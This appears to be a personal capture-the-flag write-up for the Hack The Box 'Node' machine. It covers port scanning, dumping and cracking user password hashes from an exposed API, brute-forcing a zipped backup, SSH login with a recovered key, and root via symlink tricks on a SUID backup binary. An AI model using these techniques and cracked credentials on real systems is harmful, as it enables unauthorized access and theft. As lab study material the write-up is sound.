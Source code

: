 # Enumeration

## Scan

* all ports (nmap -p- -Pn --max-retries 3 10.10.10.58 - finds 22/3000
* service on that gets

```
pat@kali:~/Desktop/Cert_Prep/htb/Linux/Node$ nmap -O -sC -sV -Pn -p 22,3000 10.10.10.58 -o nmap_ports.txt
...
PORT     STATE SERVICE            VERSION
22/tcp   open  ssh                OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:5e:34:a6:25:db:43:ec:eb:40:f4:96:7b:8e:d1:da (RSA)
|   256 6c:8e:5e:5f:4f:d5:41:7d:18:95:d1:dc:2e:3f:e5:9c (ECDSA)
|_  256 d8:78:b8:5d:85:ff:ad:7b:e6:e2:b5:da:1e:52:62:36 (ED25519)
3000/tcp open  hadoop-tasktracker Apache Hadoop
| hadoop-datanode-info: 
|_  Logs: /login
| hadoop-tasktracker-info: 
|_  Logs: /login
|_http-title: MyPlace
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.18 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 3.11 (92%), Linux 4.2 (92%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Exploits

* for 22 - username enumeration maybe
* hadoop - probably not
  * [ ] check if stuck. 

```
Hadoop YARN ResourceManager - Command Execution (Metasploit) | exploits/linux/remote/45025.rb
```

## Enumerate webpage

* dirbuster on 3000. Some weird error? Try dirb and gobuster. Based on gobuster resp, seems to return 200 for everything? Maybe I can make a custom script? Curl and wget just show the same page for any url. 
* /login page doesn't seem to reveal username
* sqlmap on login request returns nothing helpful
* Well this is fuckin weird. I guess this is why enumeration is ranked high?

# Access

* This returns a different page, maybe I can just get a custom page that shows whenever something is new? 

  ```
  curl http://10.10.10.58:3000/partials/home.html
  ```

  * [x] Write script to check if the result is diff - curl <> | md5sum? 
    * Didn't actually help find anything new on api or partials or at root
    * test_directories.py just checks if the hash of the response is the same as the one that I want to avoid. 

* There are {{ variables }} returned? 

  * [x] Something? - probably not based on other found partials pages. 

* Looks like I can also get: http://10.10.10.58:3000/api/users and that returns this. Maybe I can crack a hash? 

  ```
  0	
  _id	"59a7365b98aa325cc03ee51c"
  username	"myP14ceAdm1nAcc0uNT"
  password	"dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af"
  is_admin	true
  1	
  _id	"59a7368398aa325cc03ee51d"
  username	"tom"
  password	"f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240"
  is_admin	false
  2	
  _id	"59a7368e98aa325cc03ee51e"
  username	"mark"
  password	"de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73"
  is_admin	false
  3	
  _id	"59aa9781cced6f1d1490fce9"
  username	"rastating"
  password	"5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0"
  is_admin	false
  ```

* Found that it's sha256 and that tom:spongebob and mark:snowflake and admin:manchester

* Login as admin and find the backup. 

* Download the backup after logging in as admin. Large text file. Seems like some kind of repeating, see the = at end and try to base 64 -d

  ```
  pat@kali:~/Desktop/Cert_Prep/htb/Linux/Node$ base64 -d myplace.backup > backup64
  pat@kali:~/Desktop/Cert_Prep/htb/Linux/Node$ file backup64 
  backup64: Zip archive data, at least v1.0 to extract
  ```

* says wrong password trying to decrypt. Tried all passwords and _ids. Gives me a file listing of the server though? Can't navigate to any of those files. 

* Brute?

  ```
  /sbin/zip2john backup64 > backup_hashes
  /sbin/john backup_hashes --wordlist=/usr/share/wordlists/rockyou.txt --format=PKZIP
  ```

* Got the password as magicword. Have the package-lock. Maybe I can search those for known vulns? 

* Downloaded dependency check and ran that. Nothing. 

* Oh, npm has a tool:

  ```
  pat@kali:~/Desktop/Cert_Prep/htb/Linux/Node/var/www/myplace$ npm audit --dry-run
  ```

* Returns a bunch of high severity vulns but they're all just DoS. 

* Look at code maybe? See that it's running a maybe vulnerable mongodb version if I was able to connect to it? Nothing for body-parser or express. 

* Mongodb is filtered so I can't reach it remotely, but the keys are there? Don't seem to be able to tell the app to send a specific command? Maybe I can use the key in the file to ssh in? 5AYRft73VtFpc84k

* Worked! 

# Escalation

## Getting Tom

* Need to get user.txt from tom. Currently mark. Can probably do that dB thing now. 

  ```
  searchsploit -x exploits/linux/remote/24947.txt
  ```

* Tried to make my own js code and upload and run it with node. Doesn't seem to work? Tried w/ users and test. Writeup time, although probably should use a privesc script before giving up but w/e. 

* Read writeup. Privesc script would have seen that tom was running that file and I would have seen it eventually. 

* Fine the scheduler app. See that it's execing. Make and run the add_doc.js script to create a shell. Have to ln -s the entire node-modules directory. 

  ```
  ln -s /var/www/myplace/node_modules .
  node add_doc.js
  ```

  

## Getting Root

* See the backup thing in the code and that it's a suid exec

* ltrace shows that it's checking against directories it doesn't like maybe? 

* Can use special characters and symbolix links to get the backup app to give me the stuff. Not sure why things that work in the cli break when in ltrace but seems to be happening. 

  ```
  mkdir -p /tmp/test/test1/test2
  ln -s /root/root.txt /tmp/test/test1/test2/a
  /usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /tmp/test/test1/test2/a
  echo "theoutput" | base64 -d > backup_dir
  ```

* I still can't really explain what exactly I'm getting around with more slashes and why ltrace and it doesn't work. 

# Lessons

* Want to become another user? See if they're running any programs.
* Looking over binary or confused about it? ltrace or strace
* Good example of how to get around characters that aren't allowed: https://alamot.github.io/node_writeup/#1-using-symbolic-links
  * Apparently it's even possible to do command injection on the app